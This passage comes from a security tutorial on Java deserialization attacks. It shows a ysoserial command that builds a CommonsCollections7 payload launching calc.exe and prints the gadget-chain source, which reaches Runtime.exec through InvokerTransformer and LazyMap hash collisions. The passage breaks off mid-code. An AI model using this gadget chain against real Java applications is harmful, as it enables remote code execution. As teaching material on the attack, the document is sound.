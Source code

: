 For the Deserialization example provided above, let's suppose we wanted to craft a payload using ysoserial and CommonsCollection7:

```bash
$ ysoserial CommonsCollections7 "cmd /c calc.exe" > ./Serialize/de.ser
```

If you try to open it using the example JAVA file, of course it won't work, showing a `java.lang.ClassNotFoundException: org.apache.commons.collections.map.LazyMap` exception. The reason is always the "visibility constraint". As this payload uses `CommonsCollections:3.1`, which is not part of standard JAVA SDK, the POP gadgets to build the required chain cannot be found. In order to make it work, we should be sure to have this dependency on the application classpath. A working example, where the `org.apache.commons-collections:3.1` dependency has been added, can be found [here](https://github.com/klezVirus/klezVirus.github.io/tree/master/The_Big_Problem_of_Serialisation/java/Serialize). 

Now that we have a general understanding of the process, let's try to describe the full steps occurring during deserialization in Java using CommonsCollections7.

Payloads generated with ysoserial share a common structure, which use a Payload Runner using maps to setup the conditions, and a transformer to actually build and run OS commands. 

Let's take a deep look at CommonsCollections7:

```java
public class CommonsCollections7 extends PayloadRunner implements ObjectPayload<Hashtable> {

    public Hashtable getObject(final String command) throws Exception {

        // Reusing transformer chain and LazyMap gadgets from previous payloads
        final String[] execArgs = new String[]{command};

        final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

        final Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class},
                execArgs),
            new ConstantTransformer(1)};

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

        // Needed to ensure hash collision after previous manipulations
        lazyMap2.remove("yy");

```